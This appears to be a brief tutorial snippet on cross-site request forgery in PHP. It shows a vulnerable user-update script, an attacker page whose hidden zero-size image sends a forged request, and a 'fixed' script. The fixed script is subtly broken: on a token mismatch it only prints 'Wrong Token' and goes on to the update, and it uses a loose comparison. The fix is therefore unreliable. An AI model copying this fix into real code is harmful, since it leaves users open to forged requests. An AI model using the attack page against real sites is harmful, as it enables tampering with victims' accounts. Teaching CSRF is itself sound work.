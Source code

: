 ####Vulnerable Code
update_user.php
```php
<?php
$name = $_REQUEST['name'];
$about = $_REQUEST['about'];
$username = $_REQUEST['username'];
// update user info
?>
```

####Attack
attacker.html
```html
<!DOCTYPE html>
<html>
<body>
<img src="http://localhost/csrf/update_user.php?name=YouHaveBeenHackedByVinoth" alt="You Have Been Hacked :(" height="0" width="0"/>
</body>
</html>
```
####How to fix
- avoid $_REQUEST and $_GET for getting post information
- use CSRF Token for post data

update_user_fixed.php
```php
<?php
$name = $_POST['name'];
$about = $_POST['about'];
$username = $_POST['username'];
if($_SESSION['csrf_token'] != $_POST['csrf_token']){
	echo 'Wrong Token';
}
// update user info
?>
```
